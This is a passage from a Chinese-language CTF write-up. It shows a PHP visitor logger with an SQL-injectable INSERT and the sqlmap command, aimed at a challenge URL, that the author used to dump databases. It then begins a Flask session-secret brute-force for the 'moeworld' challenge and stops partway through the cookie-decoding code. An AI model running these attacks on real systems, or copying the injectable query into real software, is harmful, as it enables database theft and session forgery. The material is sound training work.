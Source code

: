 ```php
$query = "INSERT INTO visitor_records (ip, user_agent, time) VALUES ('$ip', '$user_agent', $time)";

// 执行插入
$result = mysqli_query($mysqli, $query);

// 检查插入是否成功
if ($result) {
    echo '数据插入成功';
} else {
    echo '数据插入失败: ' . mysqli_error($mysqli);
}

// 关闭数据库连接
mysqli_close($mysqli);
```

很明显可以sql注入，手注没注出来，用sqlmap出了，手注出来的师傅可以踢我一下看看payload

```
sqlmap -u "http://101.42.178.83:7770/wordpress/wp-content/plugins/visitor-logging/logger.php" --data "ip=1&user_agent=2&time=123" #爆库爆表
```



### moeworld

第一次做渗透题，边学边做学到很多。先随便注册个号登录，主页发现有提示secret_key的生成方法，写个python脚本爆破一下：

```python
import ast
import os
from flask.sessions import SecureCookieSessionInterface
#核心加密解密内容可从flask_session_cookie_manager3.py中复制粘贴过来
class MockApp(object):
    def __init__(self, secret_key):
        self.secret_key = secret_key
class FSCM():
    def decode(session_cookie_value, secret_key=None):
        """ Decode a Flask cookie  """
        try:
            if (secret_key == None):
                compressed = False
                payload = session_cookie_value

                if payload.startswith('.'):
                    compressed = True
                    payload = payload[1:]

                data = payload.split(".")[0]

                data = base64_decode(data)
                if compressed:
                    data = zlib.decompress(data)

                return data
            else:
                app = MockApp(secret_key)

                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.loads(session_cookie_value)
        except Exception as e:
            return "[Decoding error] {}".format(e)
            raise e
```